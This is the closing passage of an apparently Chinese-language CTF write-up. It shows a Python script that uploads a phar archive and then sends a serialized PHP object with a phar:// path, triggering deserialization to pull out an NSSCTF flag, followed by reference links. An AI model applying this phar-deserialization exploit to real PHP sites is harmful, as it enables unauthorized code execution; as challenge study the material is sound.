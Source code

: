 ```python
    },
    data={
        0: open('./phar.zip', 'rb').read()
    }
) # 写入
# file_get_contents时,就会触发phar反序列化,得到flag
res = requests.post(
    url,
    params={
        0: 'O:1:"A":1:{s:6:"config";s:1:"r";}'
    },
    data={
        0: 'phar://tmp/a.txt'
    }
) # 触发

flag = re.compile('(NSSCTF\{.+?\})').findall(res.text)[0]
print(flag)
```

参考:https://www.ctfer.vip/#/note/set/wp/33

##  参考文献

https://y4tacker.blog.csdn.net/article/details/113588692?spm=1001.2014.3001.5502

https://xz.aliyun.com/t/2715#toc-1

https://xz.aliyun.com/t/2613